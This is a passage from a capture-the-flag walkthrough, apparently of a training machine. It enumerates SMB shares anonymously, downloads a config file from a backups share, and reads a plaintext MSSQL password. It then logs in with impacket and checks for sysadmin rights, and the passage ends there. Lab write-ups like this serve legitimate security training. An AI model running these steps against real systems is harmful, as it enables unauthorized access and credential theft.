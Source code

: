 LIST SMB SHARES:
```shell
└─$ smbclient -N -L 10.129.55.134                          

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.55.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Connect to backup share and get interesting file:
```share
└─$ smbclient -N \\\\10.129.55.134\\backups                 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		5056511 blocks of size 4096. 2613093 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \> exit
````

prod.dtsConfig file seems has mssql credential information:
```shell
└─$ cat prod.dtsConfig
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>   
```

Connect to mssql ussing impacket
[mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

```shell
└─$  python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.55.134 -windows-auth                                                                         
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> SELECT is_srvrolemember('sysadmin');
              
```